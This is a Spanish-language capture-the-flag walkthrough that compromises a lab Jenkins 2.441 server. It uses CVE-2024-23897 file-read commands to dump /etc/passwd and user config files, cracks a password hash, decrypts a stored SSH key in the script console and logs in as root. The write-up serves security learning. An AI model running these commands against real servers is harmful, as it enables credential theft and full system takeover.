# Initial Recon

Comenzamos nuestros escaneos con nmap.

```bash
> sudo nmap 10.10.11.10 -sS -p- --open -n -Pn --min-rate 3000 -vvv -oG ports 

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 62
```

```bash
> nmap -p8080,22 10.10.11.10 -sVC

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:De:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Dashboard [Jenkins]
|_http-server-header: Jetty(10.0.18)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Sólo tenemos 2 puertos, veamos el sitio web.

# Web



Miramos las versiones:

```bash
> whatweb http://10.10.11.10:8080/  
            
http://10.10.11.10:8080/ [200 OK] Cookies[JSESSIONID.678bd8a0], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.678bd8a0], IP[10.10.11.10], Jenkins[2.441], Jetty[10.0.18], OpenSearch[/opensearch.xml], Script[application/json,text/javascript], Title[Dashboard [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson-theme,referrer-policy,cross-origin-opener-policy,x-hudson,x-jenkins,x-jenkins-session,x-instance-identity], X-Frame-Options[sameorigin]
```

Buscar la versión de Jenkins que encontramos en la web. Jenkins 4.441 explotar

## CVE-2024-23897 - Jenkins Arbitrary File Leak Vulnerability

Descargue el archivo .jar del jenkins vulnerable

```bash
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar 
```

Aquí tienes más información al respecto:

https://www.zscaler.com/blogs/security-research/jenkins-arbitrary-file-leak-vulnerability-cve-2024-23897-can-lead-rce

Lista el /etc/passwd de la máquina víctima.

```bash
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node '@/etc/passwd'
```



## Directory Structure for Jenkins

Aquí comparto información sobre el orden de los directorios Jenkins:

https://medium.com/@knoldus/directory-structure-and-installing-plugins-in-jenkins-3dd62488631c



Buscamos el nombre de usuario:

```bash
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.10.11.10:8080' connect-node "@/var/jenkins_home/users/users.xml"
```



Cada lugar tiene su ``config.xml``



Cada usuario tiene un archivo config.xml, veámoslo:

```bash
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.10.11.10:8080' connect-node "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
```

Encontramos un hash en el archivo:



La rompemos con John:



## Login in Jenkins

Iniciemos sesión con las credenciales encontradas.

Jenkins credentials — ``jennifer`` : ``princess``



# Privilege Escalation
Si vamos a > Manage Jenkins > Credentials > System > Global Crendentials (UNrestricted)



Si inspeccionamos por encima de la clave, podemos ver que la clave ssh está encriptada.



## How to Print Password Encryption Jenkins

Imprimimos la clave en la consola de Jenkins con el siguiente comando que encontramos en esta web:

https://stackoverflow.com/questions/25547381/what-password-encryption-jenkins-is-using

```bash
println(hudson.util.Secret.fromString("{encrypt hash}"))
```



y ahora como siempre, guardamos la clave y le damos permisos

```bash
chmod 600 id_rsa
```

```bash
ssh -i id_rsa root@10.10.11.10
```

